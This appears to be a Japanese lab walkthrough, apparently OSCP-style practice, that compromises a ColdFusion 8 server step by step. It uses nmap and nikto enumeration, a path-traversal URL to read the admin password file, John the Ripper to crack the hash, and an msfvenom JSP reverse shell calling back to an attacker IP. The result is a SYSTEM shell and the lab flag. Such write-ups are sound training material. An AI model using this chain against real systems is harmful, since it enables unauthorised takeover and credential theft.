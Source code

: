 1.　列挙   
```
nmap -sV -sC -T4 -Pn -oA nmap/all 10.11.1.10
```
2.　脆弱性調査
```
nikto -h http://10.11.1.10
nmap -Pn -p 80 --script vuln -oA nmap/p80 10.11.1.10
```
3.　ColdFusionの脆弱性を使ってAdministratorページのパスワードを解析する
```
python2 ./14641.py 10.11.1.10 80 /CFIDE/administrator/index.cfm
```
4.　アドレスバーに入力
```
http://10.11.1.10/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en
```
5.　sha1のパスワードが分かるのでjohnで解読
```
john hash.txt --format=Raw-SHA1 --show
```
6.　シェル作成
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.119.240 LPORT=4444 -f raw > shell.jsp
```
7.  「Scheduled Tasks」でシェルをアップロードする   
「Save output to a file」にチェックを入れる    
「File」はMappingsで保存先を調べる    
「Submit」を押して登録   
8. Actionsで直ぐに実行させる   
9. リスナー起動
```
nc -lnvp 4444
```
10. アドレスバーでシェルを実行   
```
http://10.11.1.10/CFIDE/shell.jsp  
```
11.　リスナーが受信    
```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [192.168.119.240] from (UNKNOWN) [10.11.1.10] 2029
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

C:\ColdFusion8\runtime\bin>whoami
whoami
nt authority\system
```
12. systemユーザでシェルを取得できたのでそのままフラグ取得
```
C:\Documents and Settings\Administrator>cd Desktop
C:\Documents and Settings\Administrator\Desktop>type proof.txt
type proof.txt
a416a831fddf36aa8c01ba0674ca7bf8
```
